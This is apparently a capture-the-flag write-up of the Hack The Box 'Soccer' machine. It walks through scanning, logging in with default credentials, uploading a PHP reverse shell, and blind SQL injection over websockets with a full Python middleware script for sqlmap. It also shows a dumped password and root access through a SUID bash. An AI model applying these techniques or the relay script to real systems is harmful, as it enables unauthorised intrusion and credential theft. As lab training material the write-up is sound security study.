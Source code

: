 # Initial scanning
First I ran an nmap scan to check for open ports and available services on this machine
```
karim@alpacino:~/Desktop/htb$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 20:05 EET
Nmap scan report for 10.10.11.194
Host is up (0.068s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
```
so there are three ports open which are 22 for ssh and 9091 for xmltec-xmlmail service which will be usefull in the future and xmltec-xmlmail80 for http and its redircting me to soccer.htb so I added the ip in my **/etc/hosts** file to access the website
![image1](soccer/img/1.png)

and I was to able to access the website. so I ran a gobsuter scan to find hidden directories  in the website
```
karim@alpacino:~/Desktop/htb$ sudo gobuster dir -u http://soccer.htb -w /opt/wordllists/dirbuster/directory-list-2.3-medium.txt 
[sudo] password for karim: 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordllists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/19 20:33:16 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
gobuster found a directory called tiny so I opened a login page appeared to me
![image1](soccer/img/2.png)
After a little research I found that tiny is a file manger so I viewed the source code to find if there is a version number and I found it and it was "**2.4.3**"
![image1](img/3.png)
so I searched online for the default credentials of this version and I found "**admin:admin@123**" so I tried it and worked and I got logged in as admin user
# Initial Foothold
I was prompted to a file managment system with the  ability to upload file
![image1](img/4.png)
so I tried to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) but it was only uploaded succefully in the **/var/www/html/tiny/uploads** directory and I obtained a reverse shell
![image1](img/5.png)]
I tried to cat the user.txt file in the /home/player directory to obtain the flag but I didn't have the permission to read the file
```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```
so I searched in the default folder for something odd and I found **/etc/nginx** which inticades that there is an nginx server running so I cded to /etc/nginx/sites-enabled and I found **soc-player.htb** file and I found that there is another server running with another subdomain
```
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```
so I added the subdomain to my **/etc/hosts** file and I opened it in my browser
![image1](img/6.png)
And I found that it has a signup functionality and a functionality to book tickets to matches so I created an account and went to the tickets booking page
![image1](img/7.png)
and as you can see I tried sql injection and it appeared that this form is vurnable to blind sql injection so I fired up burp suite to analyze the application and to know what technology it is using.
![image1](img/10.png)
So I discovered that it run websocket and unfortunatly You can't use sqlmap map with websockets directly so searches online and found [this article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that explains how to use sqlmap with websockets.
so I used the script in the article and modified it to be compatable with our machine and here is the modified script
```
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection  
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
 ws = create_connection(ws_server)  
 # If the server returns a response on connect, use below line   
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here  
   
 # For our case, format the payload in JSON  
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure  
 data = '{"id":"%s"}' % message  
  
 ws.send(data)  
 resp = ws.recv()  
 ws.close()  
  
 if resp:  
  return resp  
 else:  
  return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
 class CustomHandler(SimpleHTTPRequestHandler):  
  def do_GET(self) -> None:  
   self.send_response(200)  
   try:  
    payload = urlparse(self.path).query.split('=',1)[1]  
   except IndexError:  
    payload = False  
      
   if payload:  
    content = send_ws(payload)  
   else:  
    content = 'No parameters specified!'  
  
   self.send_header("Content-type", content_type)  
   self.end_headers()  
   self.wfile.write(content.encode())  
   return  
  
 class _TCPServer(TCPServer):  
  allow_reuse_address = True  
  
 httpd = _TCPServer(host_port, CustomHandler)  
 httpd.serve_forever()  
  
  
print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  
  
try:  
 middleware_server(('0.0.0.0',8081))  
except KeyboardInterrupt:  
 pass
```
and I ran sqlmap and the following credentials appeared
```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```
so I logged in via ssh to the machine as player user and I was able to read the user flag
# Privilage Escalation
so I uploaded [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) script and ran it on the machine
![image1](img/11.png)
so I ran the /usr/bin/bash script with the following command
```
bash-5.0$ /usr/bin/bash -p
```
so that's how I was able to be the root user
![image1](img/12.png)
# conclusion
In the end of this writeup I would like to share my thoughts about this machine.
I think this machine is a good one and if you solve it you will learn multiple things like automating websocket sql injection and I think that the creator of this machine should be respected.
